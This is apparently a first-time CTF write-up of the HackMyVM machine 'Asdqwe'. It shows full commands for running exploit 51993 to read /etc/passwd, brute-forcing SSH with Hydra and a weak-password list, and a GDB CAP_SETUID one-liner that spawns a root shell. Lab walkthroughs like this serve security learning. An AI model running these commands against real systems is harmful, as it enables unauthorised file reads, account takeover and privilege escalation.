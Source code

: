 # ASDQWE
**network discovery**
I usually use __Fping__ command to watch active machines in my network  

![fping_image](/images/)

i saw the __192.168.1.113__ is my the **CTF** machine 
![namp]https://github.com/HosseinVampire/Writeups/blob/main/Hackmyvm/Asdqwe/images/fping.png)

**FIND 8080 port lets check it**

i did some search on site but nothing ....

only got this information 

![info](/images/information.png)

i tried to brouteforce the login page but its seems to protected  so i got stuck 

###  Exploit-db

i check exploit-db  and this is result 
![exploit-db](/images/searchsploit.png)
exploit number is  __51993__
i import the file and can read some files  

```bash
python 51993.py  -u http://192.168.1.113:8080 -p /etc/passwd
```
_Result_ : 

![passwd](/images/passwd.png)

users that have bash : Root , kali , penetration 
*i serched a lot for id_rsa or any password but nothing ...*

i spend a 30 min to figure the solution of gettin a shell it  .   Thanks to my friend **ll104567**

from the name of machine i thought that password might be a silly  so ...
### Hydra
**hydra -l kali -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  ssh://192.168.1.113**
![hydrapassword](/images/hydra.png)

### PRIV ESC - ROOT
 
Getting root was easy 
check  capabilities and got below results :
[cap](/images/setuiddiscovery.png)

Find *GDB* command that got capabilities 

**If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.**

# ROOT ACCESS :

**gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit**

DONE :)

![root](/images/root.png)

it is my first write up, im sorry if i explained bad <3